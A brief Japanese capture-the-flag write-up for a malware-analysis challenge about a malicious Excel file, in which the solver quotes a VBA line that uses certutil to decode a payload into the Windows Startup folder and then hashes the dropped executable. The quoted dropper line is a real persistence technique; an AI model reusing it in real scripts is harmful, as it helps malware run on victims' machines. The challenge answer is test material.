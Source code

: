 # 標的攻撃III★★☆

```
「製品価格一覧20180711.xls」の動作を終えると、別のファイルが生成され、そこから2次検体が生成されます。2次検体のSHA256ハッシュ値を調べてください。
```

URLからファイルを取得し、VBAスクリプトに含まれている

```
Shell "certutil -decode """ & startupFolder & "\cert.pem"" """ & startupFolder & "\cert.exe"""
```

コマンドを実行すればいいことがわかる。

```powershell
PS>certutil -decode cert.pem cert.exe
```

あとはhashを取得するだけでよい

```powershell
PS>certutil -hashfile cert.exe sha256
SHA256 ハッシュ (対象 cert.exe):
c4f069d079330cd46e51f9469c27015ed34c6371481df83a323bc098f3b53382
CertUtil: -hashfile コマンドは正常に完了しました。
```